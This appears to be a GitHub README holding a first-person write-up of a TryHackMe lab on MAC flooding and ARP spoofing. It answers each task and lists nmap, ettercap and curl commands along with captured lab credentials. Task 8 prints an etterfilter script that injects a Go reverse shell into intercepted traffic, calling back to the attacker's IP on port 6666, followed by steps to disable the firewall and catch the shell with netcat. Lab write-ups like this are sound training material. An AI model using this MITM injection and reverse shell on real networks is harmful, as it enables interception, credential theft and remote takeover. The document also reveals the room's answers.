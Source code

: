 # L2-MAC-Flooding-ARP-Spoofing
 <b> Tryhackme  L2 MAC Flooding &amp; ARP Spoofing writeup </b>
  
 <b> TASK 2 </b> <br>
  <b> Note The admin user is in the sudo group. I suggest using the root user to complete this room <br>
      sudo su (password : Layer2)</b><br>
  
  Q.1    Now, can you (re)gain access?(Yay/Nay).<br>
  Ans.   Yea <br>
  <b>TASK 3 </b><br>
  Q. 1 What is your IP address? <br>
  <b>  ip address show eth1 </b><br>
  Ans. 192.168.12.66 <br>
  <img src="nmap_task.png"><br>
  Q. 2 What's the network's CIDR prefix? <br>
  Ans. /24  <br>
  Q. 4 How many other live hosts are there? <br>
  <b>  nmap -sn 192.168.12.66/24 </b> <br>
  Ans. 2 <br>
  Q. 5 What's the hostname of the first host (lowest IP address) you've found? <br>
  Ans. alice <br>
   <b>TASK 4 </b> <br>
  Q. 1 Can you see any traffic from those hosts? (Yay/Nay) <br>
  Ans. yea <br>
  Q. 2 Who keeps sending packets to eve? <br>
  Ans. bob <br>
  Q. 3 What type of packets are sent? <br>
  Ans. icmp <br>
    <b>hint</b> for Q 3 & 4 see fig <br>
    <img src="task4.png" alt="tcpdump.pcap"><br>
  Q. 4 What's the size of their data section? (bytes) <br>
  Ans. 666 <br>
   <b> TASK 5 </b><br>
  Q. 1 What kind of packets is Alice continuously sending to Bob?  <br>
  Ans. icmp <br>
  Q. 2 What's the size of their data section? (bytes) <br>
  Ans. 1337           (same as Q 3 & 4 in task 4)<br> 
  <b>Task 6 </b><br>
  Q.1 Can ettercap establish a MITM in between Alice and Bob? (Yay/Nay) <br>
  Ans. nay <br>
  Q. 2 Would you expect a different result when attacking hosts without ARP packet validation enabled? (Yay/Na<br>
  Ans. yay <br>
   <b> TASk 7</b> <br>
    <b> Note : Use root user <br>
       sudo su   (password : Layer2) </b><br>
   Q. 1 Scan the network on eth1. Who's there? Enter their IP addresses in ascending order. <br>
   <b>nmap 192.168.12.0/24</b><br>
   Ans. 192.168.12.10, 192.168.12.20 <br>
    <img src="nmap_task7.png" alt="nmap 192.168.12.66/24"><br>
   Q. 2 Which machine has an open well-known port? <br>
   Ans. 192.168.12.20 <br>
   Q. 3 What is the port number? <br>
   Ans. 80 <br>
   Q. 4 Can you access the content behind the service from your current position? (Nay/Yay) <br>
   Ans. Nay <br>
   Q. 5 Can you see any meaningful traffic to or from that port passively sniffing on you interface eth1? (Nay/Yay) <br>
   Ans. Nay <br>
   Q. 6 Now launch the same ARP spoofing attack as in the previous task. Can you see some interesting traffic, now? (Nay/Yay) <br>
   Ans. Yay <br>
     To launch arp attack<b> ettercap -T -i eth1 -M arp</b><br>
     ettercap -T -i eth1 -M arp > myarp.txt  (read carefully Q 7,89,11,17 Ans found in myarp.txt)<br>
   Q. 7 Who is using that service? <br>
   Ans. alice <br>
   Q. 8 What's the hostname the requests are sent to? <br>
   Ans www.server.bob <br>
   <img src="task7_Q8.png" alt=""><br>
   Q. 9 Which file is being requested? <br>
   Ans. test.txt <br>
   Q. 10 What text is in the file?<br>
   <b>curl -u admin:s3cr3t_p4zz http://192.168.12.20/test.txt</b><br>
   Ans ok <br>
    <img src="task7 _Q10.png"><br>
   Q. 11 Which credentials are being used for authentication? (username:password) <br>
   Ans. admin:s3cr3t_P4zz <br>
   Q. 12 Now, stop the attack (by pressing q). What is ettercap doing in order to leave its man-in-the-middle position gracefully and undo the poisoning? <br>
   Ans. RE-ARPing the victims <br>
   Q. 13 Can you access the content behind that service, now, using the obtained credentials? (Nay/Yay) <br>
   Ans. Yay <br>
   Q. 14 What is the user.txt flag? <br>
   <b>curl -u admin:s3cr3t_p4zz http://192.168.12.20/user.txt </b><br>
   Ans. THM{..........}  <br>
   Q. 15 You should also have seen some  rather questionable kind of traffic. What kind of remote access (shell) does Alice have on the server? <br>
   Ans. reverse shell <br>
   Q. 16 What commands are being executed? Answer in the order they are being executed.<br>
   Ans. whoami, pwd, ls <br>
   <img src="command.png"><br>
   Q.17 Which of the listed files do you want? <br>
   Ans. root.txt <br>
   <img src="last_q.png"><br>
   <b>TASK 8 </b> <br>
   Q. 1 What is the root.txt flag? <br>
   Ans.  THM{........} <br>  
    <b> Read carefully each and every line in Task 8 module L2 MAC Flooding & ARP Spoofing on tryhackme</b><br>
    <b>Follow steps to find root flag</b><br>
    hint: follow these steps on ssh machine not on your local machine<br>
     step 1. copy and save in a whoami.ecf file  <br><br>
     note: if this payload not work download whoami.ecf file from repo <a href="whoami.ecf">Download</a><br>
     <b> 
   if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami") ) {
    log(DATA.data, "/root/ettercap.log");
    replace("whoami", "echo 'package main;import\"os/exec\";import\"net\";func main(){c,_:=net.Dial(\"tcp\",\"192.168.12.66:6666\");cmd:=exec.Command(\"/bin/sh\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go &" );
    msg("###### ETTERFILTER: substituted 'whoami' with reverse shell. ######\n");
}
    </b><br>
    
 
 step 2. compile source code with etterfilter<br>
  <b>etterfilter whoami.ecf -o whoami.ef</b><br>
  step 3. Disable firewall <br>
    <b>sudo ufw disable  (password: Layer2)</b><br>
  step 4. open one another ssh session and start netcat listener<br>
  hint: use same port in source code and netcat listener<br>
  <b>nc -nvlp 6666 & </b><br>
  step 5. Run ettercap <br>
  <b>sudo ettercap -T -i eth1 -M arp -F whoami.ef </b><br><br>
  A few seconds after executing this command, you should see  "Connection received on 192.168.12.20 " on netcat listerer<br>
  step 6. on netcat listener type "fg" to foreground listener<br>
  
  Enjoy reverse shell
  
  <img src="root_flag.png"><br>
  
      
      
      
      
      
      Thank you
      this is my first writeup, if i made any mistake foregive me.
      if you have any questions connect with me on LinkedIn.(use tryhackme to get my LinkedIn Id).
      
      
      Ajeet Kumar
   
   
